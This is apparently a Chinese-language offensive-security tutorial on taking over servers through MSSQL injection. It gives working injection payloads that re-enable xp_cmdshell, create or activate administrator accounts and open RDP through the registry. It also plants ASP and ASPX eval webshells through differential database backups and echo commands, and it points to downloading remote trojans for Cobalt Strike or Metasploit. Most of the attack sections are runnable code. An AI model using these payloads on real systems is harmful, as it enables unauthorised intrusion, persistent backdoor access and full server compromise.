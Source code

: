 # 扩展存储过程

## 扩展存储简介

- 在MSSQL注入攻击过程中，最长利用的扩展存储如下：

| 扩展存储过程         | 说明                                                         |
| -------------------- | ------------------------------------------------------------ |
| xp_cmdshell          | 直接执行系统命令                                             |
| sp_OACreate()        | 直接执行系统命令                                             |
| sp_OAMethod()        | 直接执行系统命令                                             |
| xp_regread           | 进行注册表读取                                               |
| xp_regwrite          | 写入到注册表                                                 |
| xp_dirtree           | 进行列目录操作                                               |
| xp_ntsec_enumdomains | 查看domain信息                                               |
| xp_subdirs           | 通过xp_dirtree，xp_subdirs将在一个给定的文件夹中显示所有子文件夹 |

- `xp_cmdshell`详细使用方法：

`xp_cmdshell`默认在**mssql2000**中是开启的，在**mssql2005之后的版本中则默认禁止** 。如果用户拥有管理员**sysadmin** 权限则可以用` sp_configure`重新开启它

```sql
execute('sp_configure "show advanced options",1')  # 将该选项的值设置为1
execute('reconfigure')                             # 保存设置
execute('sp_configure "xp_cmdshell", 1')           # 将xp_cmdshell的值设置为1
execute('reconfigure')                             # 保存设置
execute('sp_configure')                            # 查看配置
execute('xp_cmdshell "whoami"')                    # 执行系统命令

exec sp_configure 'show advanced options',1;       # 将该选项的值设置为1
reconfigure;                                       # 保存设置
exec sp_configure 'xp_cmdshell',1;                 # 将xp_cmdshell的值设置为1
reconfigure;                                       # 保存设置
exec sp_configure;                                 # 查看配置
exec xp_cmdshell 'whoami';                         # 执行系统命令

# 可以执行系统权限之后,前提是获取的主机权限是administrators组里的或者system权限
exec xp_cmdshell 'net user Guest 123456'           # 给guest用户设置密码
exec xp_cmdshell 'net user Guest /active:yes'      # 激活guest用户
exec xp_cmdshell 'net localgroup administrators Guest /add'  # 将guest用户添加到administrators用户组
exec xp_cmdshell 'REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f'  # 开启3389端口
```

## 扩展存储Getshell

- 条件

1. 数据库是 **db_owner** 权限
2. 扩展存储必须开启，涉及到的的扩展存储过程: xp_cmdshell、 xp_dirtree、 xp_subdirs、 xp_regread

```sql
1.查看是否禁用扩展存储过程xp_cmdshell
id=0 union select 1,2,count(*) FROM master..sysobjects Where xtype = 'X' AND name = 'xp_cmdshell'--+
id=1 and 1=(select count(*) from master.sys.sysobjects where name='xp_cmdshell')--+

2.执行命令
id=1;exec master.sys.xp_cmdshell 'net user admin Admin@123 /add'--+
id=1;exec master.sys.xp_cmdshell 'net localgroup administrators admin /add'--+
```

# 差异备份GetShell

## 差异备份简介

差异备份数据库得到webshell。在sqlserver里dbo和sa权限都有备份数据库权限，我们可以把数据库备份称asp文件，这样我们就可以通过mssqlserver的备份数据库功能生成一个网页小马。

## 前提条件

- 具有db_owner权限
- 知道web目录的绝对路径

## 寻找绝对路径的方法

- 报错信息
- 字典爆破
- 根据旁站目录进行推测
- 存储过程来搜索

在mssql中有两个存储过程可以帮我们来找绝对路径：`xp_cmdshell xp_dirtree`

先来看`xp_dirtree`直接举例子

```sql
execute master..xp_dirtree 'c:' --列出所有c:\文件、目录、子目录 
execute master..xp_dirtree 'c:',1 --只列c:\目录
execute master..xp_dirtree 'c:',1,1 --列c:\目录、文件
```

当实际利用的时候我们可以创建一个临时表把存储过程查询到的路径插入到临时表中

```sql
CREATE TABLE tmp (dir varchar(8000),num int,num1 int);
insert into tmp(dir,num,num1) execute master..xp_dirtree 'c:',1,1;
```

当利用`xp_cmdshell`时，其实就是调用系统命令来寻找文件

例如：

```sql
?id=1;CREATE TABLE cmdtmp (dir varchar(8000));
?id=1;insert into cmdtmp(dir) exec master..xp_cmdshell 'for /r c:\ %i in (1*.aspx) do @echo %i'
```

- 读配置文件

## 差异备份的大概流程

```sql
1.完整备份一次(保存位置当然可以改)
backup database 库名 to disk = 'c:\ddd.bak';--+

**2.创建表并插入数据** 
create table [dbo].[dtest] ([cmd] [image]);--+
insert into dtest(cmd)values(0x3C25657865637574652872657175657374282261222929253E);--+

**3.进行差异备份** 
backup database 库名 to disk='c:\interub\wwwroot\shell.asp' WITH DIFFERENTIAL,FORMAT;--+

# 上面0x3C25657865637574652872657175657374282261222929253E即一句话木马的内容：<%execute(request("a"))%>
```

# xp_cmdshell GetShell

原理很简单，就是利用系统命令直接像目标网站写入木马

```sql
?id=1;exec master..xp_cmdshell 'echo ^<%@ Page Language="Jscript"%^>^<%eval(Request.Item["pass"],"unsafe");%^> > c:\\WWW\\404.aspx' ;
```

这里要注意 `<`和`>`必须要转义，转义不是使用`\`而是使用`^`

# 文件下载getshell

当我们不知道一些网站绝对路径时，我们可以通过文件下载命令，加载远程的木马文件，或者说`.ps1`脚本，使目标机器成功上线`cs`或者`msf`



